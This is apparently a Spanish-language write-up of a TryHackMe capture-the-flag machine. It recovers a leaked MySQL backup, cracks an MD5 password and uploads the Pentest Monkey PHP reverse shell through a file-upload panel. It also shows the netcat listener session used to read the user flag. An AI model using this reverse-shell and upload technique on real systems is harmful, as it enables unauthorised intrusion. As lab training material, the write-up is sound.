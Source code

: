 # [](#header-1)Entramos al sistema

Encontramos una serie de directorios ocultos. Tras observar todos el único en el que puede haber algo interesante es en /inc ya que encontramos un archivo que se llama mysql_bakup. Existe otro directorio para logearse pero no tenemos las credenciales por lo que me decanto por el archivo .sql

Me descargo el archivo y tras invesigarlo un poco encuentro credenciales para el login.

La contrasea esta cifrada en lo que parece md5. La desencriptamos y nos logeamos.

Funciona!

Navegamos por la web y encontramos un panel de subida de archivos en Media Center. Vamos a intentar subir una .php reverse shell y conseguir acceso al sistema. Para ello nos bajamos la reverse shell de <a href="https://pentestmonkey.net/tools/web-shells/php-reverse-shell">Pentest Monkey</a> y subirla. Antes debemos cambiar los parámetros de IP (en el que deberemos introducir la nuestra) y el puerto por el que nos vamos a poner en escucha con nc.

Ejecutamos la reverse shell y lo conseguimos

Investigamos y conseguimos la flag del usuario

```bash
❯ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.8.79.39] from (UNKNOWN) [10.10.141.160] 38076
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 21:37:38 up 43 min,  0 users,  load average: 0.00, 0.00, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home 
$ ls
itguy
$ cd itguy 
$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt
$ cat user.txt
THM{??????????????????????????}
```
